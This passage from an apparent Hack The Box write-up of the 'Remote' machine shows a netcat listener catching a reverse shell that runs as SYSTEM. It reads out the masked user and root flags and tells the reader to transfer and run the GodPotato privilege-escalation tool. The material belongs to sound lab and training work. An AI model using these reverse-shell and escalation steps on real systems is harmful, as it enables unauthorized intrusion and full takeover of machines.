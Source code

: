 Check your nc listener and collect both flags
```bash
┌──(Kyd0s㉿kali)-[~/HTB/Remote]
└─$ nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.180] 49719
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\users\Public>whoami 
whoami
nt authority\system

PS C:\Users\Public> type C:\Users\Public\Desktop\user.txt
type C:\Users\Public\Desktop\user.txt
9db1eba4d86d377******************

C:\users\Public>type c:\users\Administrator\Desktop\root.txt
type c:\users\Administrator\Desktop\root.txt
c9e204cb4bee18******************

```

Download GodPotato.exe, transfer it to the victim machine and run it following the instructions found at ```https://github.com/BeichenDream/GodPotato``` and collect both the ```user.txt``` and the ```root.txt``` flags.

Enjoy! :D